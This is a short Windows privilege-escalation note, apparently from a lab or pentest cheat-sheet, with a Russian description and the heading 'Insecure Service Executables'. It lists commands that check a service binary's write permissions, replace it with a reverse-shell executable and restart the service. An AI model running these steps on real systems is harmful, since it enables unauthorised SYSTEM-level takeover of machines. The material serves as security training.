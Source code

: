 ```yaml
---
description: Нежелательные пользователи могут иметь права на папки сервисов
---
```


# Insecure Service Executables



```
sc qc filepermsvc
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
net start filepermsvc
```
